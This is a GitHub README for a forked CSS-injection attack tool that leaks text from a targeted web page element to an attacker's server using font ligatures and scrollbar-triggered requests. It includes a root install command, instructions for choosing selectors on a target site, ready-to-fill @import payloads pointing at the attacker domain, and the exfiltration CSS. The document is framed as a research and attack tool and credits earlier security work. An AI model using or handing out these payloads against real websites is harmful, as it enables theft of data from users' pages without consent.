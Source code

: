 # Preface

Code is kinda janky and not well tested. 

# Install on your own server

0. Get a Debian 12 VPS(512MB RAM and 1 Core CPU was enough for me) and link a domain(any.com) to your server and wait for it to  propagate(https://www.whatsmydns.net/) (usually takes max 1hour depending on the ttl configured for your domain)

1. Run the following as root on the Debian 12 VPS:

```bash
apt install git -y && git clone https://github.com/sys0wn/css-scrollbar-attack && cd css-scrollbar-attack && chmod +x install.sh && bash install.sh
```

# How to use it

0. Use a chromium-based Browser that supports webkit scrollbar-styling. I have tested Chromium and Google Chrome.
1. On the website you are trying to target pick an html element you want to steal.
2. Find a combination of css selectors, that points directly to the element(e.g: p { color: red } targets all p-tags, so if there is more than 1 it doesn't point to ONLY one element and therefore no exfiltration will be possible). Use Selectors like ```https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_selectors``` and combine as many as needed to point directly to the target element. Examples for this:

```
<!doctype html>
<body>
<div>
   <h4>a</h4>
   <p id=leakme class="leakme">stealThis</p>
</div>
</body>
</html>
```

Here, the "stealThis" could be pointed to for example by: p {}, div > p {}, #leakme {}, .leakme {}, div > #leakme {}, body > div > p {}, h4 + p {}, div > h4 + p {} and many many more


You can test if your combination of selectors points directly to your target element by hitting CTRL+SHIFT+C and searching for something like ```#leakme``` or ```div > p```; If there is only one result for your search that is a combination of selectors you can use!

3. Create the payload for your CSS-Injection by plugging your combination of selectors into the following syntax: ```<style>@import url('//any.com/%23leakme/css.css');</style>``` where you have to replace the %23leakme with your URL-ENCODED(you can use websites like https://www.urlencoder.org/) combination of selectors.

# Example

```
<!doctype html>
<body>
<div>
   <h4>a</h4>
   <p id=leakme class="leakme">stealThis</p>
</div>
</body>
</html>
```

```div > h4 + p```  -->  ```<style>@import url('//any.com/div%20%3E%20h4%20%2B%20p/css.css');</style>```

# Demo

https://jsfiddle.net/q3mc5kxn/1/

https://any.com/index.html                 //Once you've installed it on your server


# How it works (short)

If <style>@import url('//any.com/div%20%3E%20h4%20%2B%20p/css.css');</style> is injected into a website the server will create a lot of fonts with different ligatures (https://en.wikipedia.org/wiki/Ligature_(writing)) that are used to bruteforce one character at a time by performing a binary search on the target text and exfiltrating it to a remote server. All the logic is serverside and the only client-side code that has to be injected is the <style> tag above that points to the target element.

# How it works (medium)


https://any.com/ is running a node server(this Github project), which will be the backend for the attack and serve all the css and handle the logic involved.
***
A ligature in a font is a sequence of at least two characters, which has its own graphical representation (for more info https://en.wikipedia.org/wiki/Ligature_(writing))
***

1. The @import will send a GET request to https://any.com/div%20%3E%20h4%20%2B%20p/css.css
2. The server receives the combination of selectors ```div%20%3E%20h4%20%2B%20p``` and therefore now knows which element to target and which text to steal
3. As a response to the GET request the following css is returned ```@import url('//any.com/start');```. This css will also be applied to the target page and a GET Request will be sent to https://any.com/start

4. Now, as a response to /start the any.com backend will do the following:

- For each character in "@.abcdefghijklmnopqrstuvwxyz...", generate a ligature starting from the first-letter. So lets say the text of the target element starts with a "s"; we will create 3 fonts: 1 for "@.abcdefgh", 1 for "ijklmnopqr" and 1 for "stuvwxyz". Now we create the ligatures: font 1 will have a ligature for "s@", "s.", "sa", "sb" ...  font2 will have a ligature for "si", "sj" ... and so on. 
- Using a CSS animation apply each of the fonts to the target-element one after each other. The first font that causes one of the ligatures("s@", "s.", "st", "sa" ...) to render is interesting to us, as if e.g. the font for "@.abcdefgh" causes a ligature to render, that gives us the information, that the second character is one of "@.abcdefgh". (Because a ligature from the first letter to the second letter was rendered which means that the second character has to be one of "@.abcdefgh".
- In order to exfiltrate this information, each of the ligatures has a very high ```horiz-adv-x``` value. This will result in the target-element getting substantially wider if the current "correct" font  is applied and a ligature is rendered. This width change will cause a scrollbar to appear. If the scrollbar appears, it will exfiltrate the information, that the second letter is one of "@.abcdefgh". This is done like this:

```
p::-webkit-scrollbar {
    background: blue;
}
p::-webkit-scrollbar:horizontal {
    background:var(--x);
}`;
```

Where --x (a css variable) is set to something like "https://any.com/@.abcdefgh" when font1 is applied at the beginning.

- Now, start again. This time create ligatures for each character in "@.abcdefgh" -> font1: "@.ab" font2: "cde", font3: "fgh"
- Keep using the same technique to perfrom a kind of binary search on each letter using ligatures, cutting the amount of possible letters in half every time until only one remains. Then move on the next letter performing the next binary search until the entire word is leaked.

References: https://aszx87410.github.io/beyond-xss/en/ch3/css-injection-2/, https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection, https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf, https://github.com/cgvwzq/css-scrollbar-attack/

# How it works (long)

Read the (kinda) documented source code (index.js)

# Limitations

- In the current configuration ~30 chars is max amount that can be exfiltrated but this is not a hard limit and can be increased I think
- Characters a-z A-Z 0-9 .@+!#=$^    but in theory there are no limitations which printable characters are possible, it's just a hassle because you have to correctly encode it and stuff.
- The Browser tab from which the text will be exfiltrated always has to stay in focus(don't switch tab, dont minimize window etc.)
- It takes some time to exfiltrate the text, but this can be optimised, for example by using only a-z if the others aren't needed or decreasing the DURATION and/or DELAY variable in the js and so on. The current configuration of the code is aimed at reliability and support for as much chars as possible etc.

# Tip

- If you face seemingly illogical errors while trying to reproduce this go to: ```chrome://settings/privacy``` and clean the cache(fonts are cached which might mess with the detection and exfiltration.
***
# This repo is a fork of https://github.com/cgvwzq/css-scrollbar-attack which I have modified, improved and documented. Thanks to cgvwzq for the awesome code and thanks to @SecurityMB (https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/) for coming up with (part of) the idea (I think).
